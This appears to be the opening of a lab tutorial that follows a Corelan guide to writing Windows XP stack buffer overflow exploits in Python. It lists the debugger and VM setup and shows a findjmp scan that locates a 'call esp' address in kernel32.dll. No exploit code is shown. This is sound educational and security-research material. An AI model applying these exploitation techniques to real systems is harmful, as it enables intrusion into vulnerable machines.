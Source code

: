 
This exploit tutorial is basically following along with:

https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

Only writing the exploits using Python.

Tools / Things You Need:

* A Windows XP / SP3 VM
* Immunity Debugger
* The vulnerable application from tutorial 1
* findjmp.exe (see https://github.com/nickvido/littleoldearthquake/tree/master/corelan/findjmp/findjmp/bin)

**Part 1: call [reg]

In this section, the exploit is built by finding a call esp opcode in kernel32.dll.

Use findjmp.exe:

findjmp kernel32.dll esp

With results: 

----------------------------------------------------------------------------
Findjmp, Eeye, I2S-LaB
Findjmp2, Hat-Squad
Scanning kernel32.dll for code useable with the esp register
----------------------------------------------------------------------------
0x7C836A78  call esp
----------------------------------------------------------------------------
Finished Scanning kernel32.dll for code useable with the esp register
Found 1 usable addresses
----------------------------------------------------------------------------


